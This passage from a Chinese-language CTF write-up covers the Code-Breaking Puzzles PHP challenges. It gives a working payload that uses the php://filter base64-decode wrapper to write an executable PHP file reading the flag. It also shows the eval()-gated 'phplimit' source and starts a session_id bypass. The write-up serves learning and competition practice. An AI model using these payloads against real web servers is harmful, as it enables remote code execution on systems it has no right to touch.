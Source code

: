 但是不能插入尖括号这些html字符，因为进行了一次转义。然后我就想到了p神之前的一篇文章

https://www.leavesongs.com/PENETRATION/php-filter-magic.html

利用php的伪协议，就可以控制写入文件的方式，这个思路其实在hitcon的一句话题目里也有，但是比这个难多了。

一开始需要判断一下前面符合base64格式的字符正好是4的倍数，就不需要添加额外字符，否则添加到4的倍数即可。

后面的内容用base64编码写入即可，最后的payload

（一个小问题，由于`dig`接受的参数不允许过长，否则直接返回空，所以payload需要尽可能的短一些

```
Host: php

domain=PD89YGNhdCAnLi4vLi4vLi4vZmxhZ19waHBtYWcxY191cjEnYDsvKioq&log=://filter/write=convert.base64-decode/resource=0.php/.
```



# phplimit

环境：

- Nginx：1.15.6
- PHP：5.6.38

代码执行的绕过限制，源码如下

```php
<?php
if(';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['code'])) {    
    eval($_GET['code']);
} else {
    show_source(__FILE__);
}
```

限制了只允许多重嵌套函数的方式，并且最里面的函数不允许添加参数。

这里学习的成分比较大，记录了下看到的师傅们的各种解法。

## session_id

session_id用于设置和获取当前的会话id，也就是`PHPSESSID`的值

![](Code-Breaking-Puzzles-题解-学习篇\7.png)

emmm但是看到了一种这样的写法，感觉php的黑魔法也太可怕了把
